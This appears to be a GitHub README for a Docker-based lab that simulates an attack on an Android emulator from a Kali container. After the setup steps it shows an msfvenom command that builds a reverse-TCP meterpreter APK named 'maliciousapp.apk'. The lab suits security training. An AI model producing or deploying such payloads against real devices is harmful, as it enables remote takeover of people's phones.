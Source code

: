 # androidExploitwithMetasploit

This project aims to simulate an attack scenario against Android devices. Using docker compose file you can simulate a subnet with android device and kali machine inside

## Requirements

1. Docker and docker-compose are installed in your system. Check installation here: https://www.docker.com/
2. This project use a docker image for android device. Check the documentation here: https://github.com/budtmo/docker-android

## Quick start

1. Download Dockerfile and docker-compose.yml from this repository
2. Go inside the directory containing files.
3. Open terminal and run:
```bash
docker-compose up
```
4. Open the browser and check http://localhost:6080 to see android device running.
5. Open terminal and run:
```bash
docker exec -it kali bash
```
6. Now you can interact with kali linux and metasploit-framework

## Attack scenario

1. Create .apk reverce tcp payload with msfvenom command and set LHOST and LPORT. Then save .apk file:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=172.16.238.10 LPORT=4444 R > maliciousapp.apk
```
